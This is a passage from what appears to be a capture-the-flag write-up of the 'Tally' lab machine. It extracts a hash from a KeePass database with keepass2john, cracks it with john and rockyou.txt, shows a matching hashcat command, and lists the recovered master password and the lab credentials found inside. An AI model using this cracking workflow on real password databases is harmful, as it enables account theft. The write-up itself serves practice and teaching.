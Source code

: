 KeePass is a password manager. The password databases are protected with a master password. but a very useful utility called *keepass2john* can create an input file for john from the database:

```aaa
┌─[baud@parrot]─[~/tally/ftp/10.10.10.59/User/Tim/Files]
└──╼ $keepass2john tim.kdbx > john.txt
┌─[baud@parrot]─[~/tally/ftp/10.10.10.59/User/Tim/Files]
└──╼ $cat john.txt
tim:$keepass$*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

*john* will detect the hash type by itself so let's give it rockyou.txt as dictionary and see if it can crack the database:

```aaa
┌─[✗]─[baud@parrot]─[~/tally]
└──╼ $john john.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
simplementeyo    (tim)
1g 0:00:01:14 DONE (2019-09-01 23:24) 0.01336g/s 330.1p/s 330.1c/s 330.1C/s simplementeyo..sept17
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It worked and now we have the password to the database:

```aaa
simplementeyo
```

The password would have been found with hashcat as well, after using *keepass2john* run the following command:

```aaa
┌─[✗]─[baud@parrot]─[~/tally]
└──╼ $hashcat -a 0 -m 13400 /usr/share/wordlists/rockyou.txt john.txt --force
```

We can open the database with KeePassXC, which comes preinstalled on Kali and Parrot:

![img](/images/writeup-tally/6.png)

Here we can find more credentials:

```aaa
User: cisco
Pass: cisco123

User: Finance
Pass: Acc0unting
```

---